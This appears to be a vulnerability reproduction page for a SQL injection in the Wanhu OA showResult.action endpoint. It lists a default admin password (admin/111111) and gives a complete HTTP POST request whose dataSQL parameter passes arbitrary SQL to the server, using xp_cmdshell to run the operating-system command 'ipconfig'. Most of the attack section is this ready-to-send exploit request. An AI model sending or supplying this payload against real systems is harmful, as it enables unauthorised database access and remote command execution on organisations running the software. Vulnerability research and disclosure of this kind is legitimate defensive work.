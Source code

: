 # Wanhu OA showResult.action Backend SQL injection vulnerability

## Vulnerability Description

There is a SQL injection vulnerability in OA showResult.action. The attacker can obtain sensitive database information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ten thousand households OA</span>

## Network surveying and mapping



## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220313175006932.png)

Default account password: admin/111111

Send a request packet:

```python
POST /defaultroot/Graph!showResult.action HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded 
Content-Length: 69 
Connection: close
Cookie: OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; LocLan=zh_CN; JSESSIONID=5AC1D44965A277C90D94B57DEDA82992; OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; ezofficeDomainAccount=whir; empLivingPhoto=; ezofficeUserName=dsfssaq; ezofficeUserPortal=; ezofficePortal135=1 
Upgrade-Insecure-Requests: 1

database=localDataSource&dataSQL=exec+master..xp_cmdshell+"ipconfig";
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631324055298-7959a3fb-b302-4926-bbfc-72107cbfdb62.png)